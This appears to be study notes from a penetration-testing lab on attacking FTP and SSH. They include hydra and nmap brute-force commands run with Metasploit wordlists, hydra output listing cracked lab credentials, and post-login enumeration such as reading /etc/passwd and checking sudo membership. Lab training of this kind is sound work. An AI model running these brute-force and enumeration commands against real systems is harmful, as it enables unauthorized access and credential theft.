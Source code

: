 2. Use the username dictionary /usr/share/metasploit-framework/data/wordlists/common_users.txt and password dictionary /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt to check if any of these credentials work on the system. List all found credentials.
   
   ![[Pasted image 20230717133411.png]]
   [21][ftp] host: 192.66.3.3   login: sysadmin   password: 654321
[21][ftp] host: 192.66.3.3   login: rooty   password: qwerty
[21][ftp] host: 192.66.3.3   login: demo   password: butterfly
[STATUS] 3045.00 tries/min, 3045 tries in 00:01h, 4018 to do in 00:02h, 4 active
[21][ftp] host: 192.66.3.3   login: auditor   password: chocolate
[21][ftp] host: 192.66.3.3   login: anon   password: purple
[STATUS] 2549.50 tries/min, 5099 tries in 00:02h, 1964 to do in 00:01h, 4 active
[21][ftp] host: 192.66.3.3   login: administrator   password: tweety
[21][ftp] host: 192.66.3.3   login: diag   password: tigger
   
   
3. Find the password of user “sysadmin” using nmap script.
   
   first store the user in a file: echo "sysadmin" > users
than run the following command: 
nmap -p 21 --script ftp-brute --script-args userdb=/root/users 192.66.3.3 

![[Pasted image 20230717134954.png]]
sysadmin:654321  
   
4. Find seven flags hidden on the server.

 get {filename}








## Exploiting SSH 

- SSH (Secure Shell) is a remote administration protocol that provides encryption and serves as the successor to Telnet.
- It is commonly used for remote access to servers and systems.
- SSH uses TCP port 22 as its default port, although it can be configured to use other open TCP ports.
- SSH authentication can be configured in two ways:
    - Username and password authentication
    - Key-based authentication
- In the case of username and password authentication, a brute-force attack can be attempted on the SSH server to discover valid credentials and gain access to the target system.


-- demo -- 
- perform nmap service scan 
- perform bruteforce attack: 
	- hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/common_passwords.txt targetip -t 4 ssh 
	- use credentials to try to log into target system: ssh username@ip 
		- groups user: see if it is part of sudo group 
		- cat /etc/\*issue to see version 
		- uname -r 
		- cat /etc/passwd 
	- find the flag 
